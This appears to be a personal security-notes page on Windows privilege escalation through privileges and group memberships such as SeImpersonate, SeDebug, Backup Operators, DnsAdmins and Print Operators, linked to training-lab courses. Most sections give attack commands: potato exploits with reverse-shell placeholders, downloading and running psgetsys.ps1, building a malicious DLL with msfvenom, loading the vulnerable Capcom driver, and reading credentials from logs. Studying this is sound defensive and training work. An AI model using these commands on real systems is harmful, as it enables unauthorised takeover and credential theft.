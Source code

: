 # Privileges

[![windows_privilege_escalation](../../../../_badges/htb/windows_privilege_escalation.svg)](https://academy.hackthebox.com/course/preview/windows-privilege-escalation)
[![windowsprivesc20](../../../../_badges/thmp/windowsprivesc20.svg)](https://tryhackme.com/room/windowsprivesc20)
[![adventofcyber2](../../../../_badges/thm/adventofcyber2/day11.svg)](https://tryhackme.com/room/adventofcyber2)

<div class="row row-cols-lg-2"><div>

Users may have privileges for running some system tasks such as backups that may be used to escalate.

We can list your privileges with the command below, **but**, you won't see all of them unless you're in an admin prompt.

```shell!
PS> whoami /priv
PS> # your groups can have privileges too!
```

Privileges are [listed and explained here](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants).
</div><div>

You can find way to exploit them on: 

* [Priv2Admin](https://github.com/gtworek/Priv2Admin) <small>(1.7k ⭐)</small>
* [PrivFu](https://github.com/daem0nc0re/PrivFu/) <small>(0.7k ⭐)</small>
* ...

Privileges may have been granted but not enabled. Some privileges can be enable using their exploit script, others can be enabled with builtin commands, and for most others, we can use:

* [Set-TokenPrivilege.ps1](https://www.leeholmes.com/adjusting-token-privileges-in-powershell/) <small>(2011 🪦)</small>
* [PoshPrivilege](https://github.com/proxb/PoshPrivilege/) with [Enable-Privilege.ps1](https://www.powershellgallery.com/packages/PoshPrivilege/0.3.0.0/Content/Scripts%5CEnable-Privilege.ps1) <small>(0.1k ⭐, 2015 🪦)</small> 
</div></div>

<hr class="sep-both">

## NormalPrompt2Admin

<div class="row row-cols-lg-2"><div>

We may use these as a normal user to escalate to admin.

#### SeImpersonate — steal access tokens

[![windows_privilege_escalation](../../../../_badges/htb/windows_privilege_escalation.svg)](https://academy.hackthebox.com/course/preview/windows-privilege-escalation)
 
The most common approach is to use [potato](/cybersecurity/red-team/s4.privesc/windows/tools/potato.md) scripts. 

```ps
PS> # You can pick any port for -l. It's for DCOM traffic. 
PS> .\JuicyPotato.exe -l any_port -p c:\windows\system32\cmd.exe -a "/c <reverse shell command>" -t *
````

You can use [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) <small>(1.7k ⭐, 2020 🪦)</small>:

````ps
PS> .\PrintSpoofer.exe -c "<reverse shell command>"
````

Additional references:

* [RogueWinRM](https://github.com/antonioCoco/RogueWinRM) <small>(0.5k ⭐, 2020 🪦)</small> using [WinRM](/operating-systems/networking/protocols/winrm.md)
* [token-priv](https://github.com/hatRiot/token-priv/tree/master) <small>(0.7k ⭐, 2017 🪦)</small>
</div><div>
</div></div>

<hr class="sep-both">

## ElevatedPromptToAdmin

<div class="row row-cols-lg-2"><div>

We may use these from an elevated prompt to escalate to admin.

#### SeDebugPrivilege — Dump Process Memory

[![windows_privilege_escalation](../../../../_badges/htb/windows_privilege_escalation.svg)](https://academy.hackthebox.com/course/preview/windows-privilege-escalation)

We can use methods shown in [Dump Credentials From LSASS Process](/operating-systems/windows/security/index.md#dump-credentials-from-lsass-process) to dump a process memory, which is often LSASS.

We can also steal and reuse the parent [access token](/operating-systems/windows/security/index.md#access-token) such as LSASS.

```ps
PS> wget "https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1" -O psgetsys.ps1
PS> .\psgetsys.ps1
PS> [MyProcess]::CreateProcessFromParent(<target_process_pid>,"<command_to_execute>","")
```

➡️ See also: [PrivFu/SeDebugPrivilegePoC](https://github.com/daem0nc0re/PrivFu/tree/main/PrivilegedOperations/SeDebugPrivilegePoC).
</div><div>

#### SeTakeOwnershipPrivilege — Takeover Any File/Folder

[![windows_privilege_escalation](../../../../_badges/htb/windows_privilege_escalation.svg)](https://academy.hackthebox.com/course/preview/windows-privilege-escalation)

We could access the SAM database or NTDS.dit...

```shell!
PS> takeown /f 'C:\poc.txt'
PS> icacls 'C:\poc.txt' /grant my_username:F
```
</div></div>

<hr class="sep-both">

## GroupToAdmin

<div class="row row-cols-lg-2"><div>

#### Backup Operators — Access any file

[![windows_privilege_escalation](../../../../_badges/htb/windows_privilege_escalation.svg)](https://academy.hackthebox.com/course/preview/windows-privilege-escalation)

*-- Grants SeBackup and SeRestore privileges --*

We can use [SeBackupPrivilege](https://github.com/giuliano108/SeBackupPrivilege) <small>(0.2k ⭐, 2013 🪦)</small> to enable/disable the privilege and exploit it.

```shell!
PS> Import-Module .\SeBackupPrivilegeUtils.dll
PS> Import-Module .\SeBackupPrivilegeCmdLets.dll
PS> Get-SeBackupPrivilege # is enabled?
PS> Set-SeBackupPrivilege # enable it
```

We can use `robocopy` to perform a backup copy:

```shell!
PS> robocopy /B <source_folder> <dest_folder> <filename>
```

We could access the SAM database or NTDS.dit...

<br>

#### DnsAdmins — Configure The DNS Service

[![windows_privilege_escalation](../../../../_badges/htb/windows_privilege_escalation.svg)](https://academy.hackthebox.com/course/preview/windows-privilege-escalation)

*-- Grants access to network DNS information --*

The DNS service runs as NT AUTHORITY\SYSTEM. When restarted, if `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\DNS\Parameters\ServerLevelPluginDll` registry key is set and points to a DLL file, then it will be executed. We can generate a DLL using [msfvenom](/cybersecurity/red-team/tools/frameworks/metasploit/msfvenom.md).

```ps
$ msfvenom -p windows/x64/exec cmd='<some command>' -f dll -o malicious.dll
```
```ps
PS> Get-ADGroupMember -Identity DnsAdmins # as DNS admin
PS> dnscmd /config /serverlevelplugindll <absolute_path_to_dll>
```

You need to restart the DNS service. If you made changes to the groups of the current user, you need to log out and log back in.

<br>

#### Event Log Readers — Can Read Logs

[![windows_privilege_escalation](../../../../_badges/htb/windows_privilege_escalation.svg)](https://academy.hackthebox.com/course/preview/windows-privilege-escalation)

You may find cleartext credentials within the logs.

```ps
PS> wevtutil qe Security /rd:true /f:text | Select-String "/user"
PS> wevtutil qe Security /rd:true /f:text /r:share_name /u:username /p:password | Select-String "/user"
```

You can also use `Get-WinEvent` but it requires special permissions.
</div><div>

#### Server Operators

[![windows_privilege_escalation](../../../../_badges/htb/windows_privilege_escalation.svg)](https://academy.hackthebox.com/course/preview/windows-privilege-escalation)

*-- Grants many privileges as [listed here](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#server-operators) --*

Members of the Server Operators group can administer domain controllers. They can start/stop/manage services, backup/restore files...

Refer to [Windows services](services.md) notes or [Backup Operators](#backup-operators--access-any-file) notes.

<br>

#### Print Operators

*-- Grants the SeLoadDriverPrivilege among other privileges --*

Members of the Print Operators can manage shares, delete printers, and before Windows 10 Version 1803, we would load a malicious driver using a user registry key. [Capcom](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys) is a known vulnerable driver.

We could use [EoPLoadDriver](https://github.com/TarlogicSecurity/EoPLoadDriver/) <small>(0.1k ⭐, 2018 🪦)</small> to enable the SeLoadDriverPrivilege and configure load the [capcom.sys](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys) driver.

```ps
PS> .\EoPLoadDriver.exe System\CurrentControlSet\Capcom .\Capcom.sys
```

We could do it manually by compiling [EnableSeLoadDriverPrivilege](https://raw.githubusercontent.com/3gstudent/Homework-of-C-Language/master/EnableSeLoadDriverPrivilege.cpp) <small>(1.0k ⭐, 2018 🪦)</small> and create registry keys pointint to [capcom.sys](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys):

```ps
PS> .\EnableSeLoadDriverPrivilege.exe
<ok>
PS> reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Path\to\Capcom.sys"
PS> reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1
```

<details class="details-n">
<summary>Compile EnableSeLoadDriverPrivilege.cpp on Windows</summary>

Add the following headers:

```cpp
#include <windows.h>
#include <assert.h>
#include <winternl.h>
#include <sddl.h>
#include <stdio.h>
#include "tchar.h"
<...>
```

You may use `cl` from Visual Studio or Windows SDK:

```shell!
PS> cl.exe /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp
```
</details>

<details class="details-n">
<summary>Compile EnableSeLoadDriverPrivilege.cpp on Linux</summary>

Add the following headers:

```cpp
#include <windows.h>
#include <assert.h>
#include <winternl.h>
#include <sddl.h>
#include <stdio.h>
#include "tchar.h"
<...>
```

Install either `g++-mingw-w64-i686` or `g++-mingw-w64-x86-64` according to your architecture <small>($env:PROCESSOR_ARCHITECTURE)</small>. 
```shell!
$ sed -i -e 's/%\(.*\)ws/%\1ls/g' EnableSeLoadDriverPrivilege.cpp # %ls on Linux (even if target is Windows)
$ x86_64-w64-mingw32-g++ -DUNICODE -D_UNICODE -municode -mconsole -o EnableSeLoadDriverPrivilege.exe EnableSeLoadDriverPrivilege.cpp -lntdll -luser32 -ladvapi32 -static-libgcc -static-libstdc++ -O2
$ strip EnableSeLoadDriverPrivilege.exe
```
</details>

You can exploit the driver using [ExploitCapcom](https://github.com/tandasat/ExploitCapcom) <small>(0.3k ⭐, 2022 🪦)</small>:

```shell!
PS> .\ExploitCapcom.exe
```
</div></div>